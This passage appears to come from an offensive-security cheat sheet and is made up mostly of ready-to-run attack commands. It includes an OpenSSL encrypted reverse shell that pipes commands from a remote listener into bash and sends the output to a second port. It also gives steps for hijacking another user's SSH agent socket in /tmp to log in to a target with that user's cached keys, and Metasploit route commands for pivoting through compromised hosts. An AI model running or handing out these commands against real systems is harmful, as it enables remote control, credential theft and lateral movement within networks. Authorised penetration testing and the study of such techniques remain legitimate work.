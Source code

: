 ### Alternative: separate input and output ports
> Using separate ports for input and output in an encrypted shell can enhance control and clarity. It allows you to monitor and debug each communication stream independently, reduces congestion by handling data in distinct channels, and offers more granular security management. This setup is particularly beneficial in complex environments.

```bash Server 1: Listen on Port 4444 (for sending commands)
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

```bash Server 2: Listen on Port 4445 (for receiving output)
openssl s_server -quiet -key key.pem -cert cert.pem -port 4445
```

```bash Client: Set up a two-way encrypted shell
openssl s_client -quiet -connect <server_ip>:4444 | bash | openssl s_client -quiet -connect <server_ip>:4445
```

<br>

### Hijacking SSH agent connections 
> In SSH, an SSH agent is a program that holds private keys used for authentication. The SSH agent allows users to authenticate to remote servers without re-entering their passphrase for every SSH connection. The agent's socket, typically found in the `/tmp` directory, is used to communicate with the SSH client.

1. Find SSH process
```bash
ps aux | grep ssh
```
2. Locate SSH agent socket
```bash
ls -lah /tmp
```
3. List cached SSH keys
```bash naming pattern like ssh-<random-string>/agent.<pid>, where <pid> is the process ID of the SSH agent
SSH_AUTH_SOCK=/tmp/ssh-<..>/agent.<pid> ssh-add -l
```
4. Hijack the SSH agent
```bash
SSH_AUTH_SOCK=/tmp/ssh-<..>/agent.<pid> ssh user@target
```

<br>

### Metasploit `route`
```bash Add a route manually
msf6 > route add 169.254.0.0 255.255.0.0 1
msf6 > route add 172.19.176.0 255.255.240.0 1
```
```bash Print the routing table
msf6 > route print
```
```bash Get specific route information
msf6 > route get 169.254.204.110
```
```bash Remove a specific route
msf6 > route remove 172.19.176.0/20 1
```
